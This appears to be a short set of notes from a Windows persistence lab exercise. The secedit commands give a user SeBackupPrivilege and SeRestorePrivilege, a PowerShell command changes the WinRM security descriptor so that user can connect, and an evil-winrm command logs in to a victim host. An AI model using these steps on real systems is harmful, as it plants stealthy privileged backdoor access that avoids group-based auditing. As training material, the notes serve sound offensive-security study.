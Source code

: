 Make an user have equivalent privileges to any Backup Operator by setting SeBackupPrivilege and SeRestorePrivilege:

	secedit /export /cfg config.inf
		Add [user] to SeBackupPrivilege and SeRestorePrivilege
	secedit /import /cfg config.inf /db config.sdb
	secedit /configure /db config.sdb /cfg config.inf

The user still can't log into the system via WinRM, so let's do something about it. Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow thmuser2 to connect. Think of a security descriptor as an ACL but applied to other system facilities.
To open the configuration window for WinRM's security descriptor, you can use the following command in Powershell (you'll need to use the GUI session for this):

	PS: Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

Connect via WinRm

	evil-winrm -i [IP victim] -u [user] -p [password]